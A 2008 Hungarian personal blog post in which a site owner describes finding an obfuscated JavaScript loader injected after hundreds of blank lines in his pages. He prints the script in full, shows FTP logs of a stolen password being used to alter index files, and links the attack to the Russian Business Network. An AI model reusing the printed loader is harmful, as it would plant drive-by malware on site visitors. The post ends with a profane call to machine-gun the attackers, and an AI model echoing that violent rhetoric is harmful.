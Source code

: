 ```yaml
---
title: "shapgvba ejtf(c){..."
date: "2008-02-05"
tags: 
  - "geekseg"
  - "gekko"
  - "hack"
  - "virus"
  - "zsonglorkodes"
---
```


Amikor a pokol elszabadul.

Rémálom baszki.

Gondos házigazda lévén, rendszeresen nézegetem az oldalaimat, hogy minden rendben van-e, nem kell-e valami hozzászólást kimoderálni stb. Vasárnap feltűnt valami kis apróság. A böngészőm a csokavar.hu főoldalán valami ismeretlen add-in-t akart futtatni. Márpedig én ilyet nem írtam sehova. Aztán nézem a forrást, és 500-600 üres sorral a fájl általam gondolt vége után találtam egy ilyet:

<script language=JavaScript>var sf=" shapgvba cwzgq(d){ine xp,yfl="r|b'RhkB\_98\[5)XsvAPClwHix.e,2o:$uyT^&Vqa36Nd=-Z\\"{\`z\]m@GS;UIc# 0}jWMt1pf7~(n4O\*+g!",xn="",c,wah,xs="",pr;sbe(xp=0;xp<d.yratgu;xp++){ c=d.puneNg(xp);wah=yfl.vaqrkBs(c);vs(wah>-1){ pr=((wah+1)%81-1);vs(pr<=0)pr+=81;xs+=yfl.puneNg(pr-1); } ryfr xs+=c;}xn+=xs;qbphzrag.jevgr(xn);}",aarf="";for(nyf=0;nyf<sf.length;nyf++){ cqd = sf.charCodeAt(nyf);if((cqd>64 && cqd<78)||(cqd>96 && cqd<110)) cqd=cqd+13;else if((cqd>77 && cqd<91)||(cqd>109 && cqd<123))cqd=cqd-13;aarf=aarf.concat(String.fromCharCode(cqd));} var hw,u; eval( aarf );hw="<7s,N#!0G431x41|-{U4k47s,N#!{>0n'sx\]|3!rJ,N!|a0{<SPRdyF0G431x41|-\\{Z4k4Ss,N#!\\{0SRP-\\{l!!#$//JJJr1''1G|M434Gj!Gs7rs'\]/99x!!rU7?{tn'sx\]|3!r,|i|,,|,t{\\{><\\/SPRdyF>{0KH0</7s,N#!>0"; pjmtd(hw);</script>

Szoktam ronda kódot írni, de azért ez... 

Kiderült, hogy fenti szutyok valami Hong Kongi gépről (58.65.238.60) próbál egy vírust letölteni a látogató gépére.

Aztán elkezdtem a logokat böngészni, míg az FTP logban a következőre nem bukkantam:

Fri Feb 1 23:58:06 2008 \[pid 7784\] \[encse\] OK LOGIN: Client "58.65.238.59"

Fri Feb 1 23:58:12 2008 \[pid 7787\] \[encse\] OK DOWNLOAD: Client "58.65.238.59", "/public\_html/www/index.php", 3904 bytes, 16.06Kbyte/sec

Fri Feb 1 23:58:14 2008 \[pid 7787\] \[encse\] OK UPLOAD: Client "58.65.238.59", "/public\_html/www/index.php", 5498 bytes, 11.47Kbyte/sec

Fri Feb 1 23:58:16 2008 \[pid 7787\] \[encse\] OK DOWNLOAD: Client "58.65.238.59", "/public\_html/gekko/index.php", 92 bytes, 0.39Kbyte/sec

Fri Feb 1 23:58:18 2008 \[pid 7787\] \[encse\] OK UPLOAD: Client "58.65.238.59", "/public\_html/gekko/index.php", 1686 bytes, 3.49Kbyte/sec

Fri Feb 1 23:58:21 2008 \[pid 7787\] \[encse\] OK DOWNLOAD: Client "58.65.238.59", "/public\_html/blog/index.php", 54 bytes, 0.23Kbyte/sec

Fri Feb 1 23:58:23 2008 \[pid 7787\] \[encse\] OK UPLOAD: Client "58.65.238.59", "/public\_html/blog/index.php", 1648 bytes, 3.43Kbyte/sec

Fri Feb 1 23:58:26 2008 \[pid 7787\] \[encse\] OK DOWNLOAD: Client "58.65.238.59", "/public\_html/zsonglor/index.php", 5645 bytes, 24.04Kbyte/sec

Fri Feb 1 23:58:28 2008 \[pid 7787\] \[encse\] OK UPLOAD: Client "58.65.238.59", "/public\_html/zsonglor/index.php", 7239 bytes, 10.81Kbyte/sec

Fri Feb 1 23:58:31 2008 \[pid 7787\] \[encse\] OK DOWNLOAD: Client "58.65.238.59", "/public\_html/zsonglor/siteswap/index.php", 7102 bytes, 16.60Kbyte/sec

Fri Feb 1 23:58:33 2008 \[pid 7787\] \[encse\] OK UPLOAD: Client "58.65.238.59", "/public\_html/zsonglor/siteswap/index.php", 8696 bytes, 12.99Kbyte/sec

Ugyanaz a Hong Kongi IP, közvetlen a másik mellett.

Szóval valaki lenyúlta az FTP jelszavamat, és ahogy sejtem, arra használta fel, hogy ugyanezt a jelszólopó trójait terjessze az oldalaimon.

A neten találtam egy fórumot, ahol egy hasonló támadást elemeznek ([http://pouet.net/topic.php?which=5006&page=1](http://pouet.net/topic.php?which=5006&page=1)). Itt az 'én' scriptem egy másik mutációját elemzik. Szerintük az egész mögött a [Russian Business Network](http://en.wikipedia.org/wiki/Russian_Business_Network) áll, ami a wikipedia leírása alapján nagyjából a maffia. hátafaszom.

Tegnap jelszavakat váltogattam (bankos, céges, stb.  el lehet képzelni...) Ma meg egész nap a gépet pucolgattam, de ez tisztának tűnik. Azt gondolom, hogy az otthoni, régi gépemen lesz a trójai, de ez a hétvége előtt nem fog kiderülni.

És az egészben nem is az fáj, hogy engem meghackeltek, mert előfordul az ilyesmi. De a büdös kurva életbe már: a szájbavert zsonglőr oldalamra töltik fel az ótvar szutykukat, hogy az arra tévedő gyerekek gépére másszon fel az a szemét.

Én sose voltam a halálbüntetés ellen: le kéne géppuskázni az egész baszott bagást, úgy ahogy van, aztán nézegethetnek.
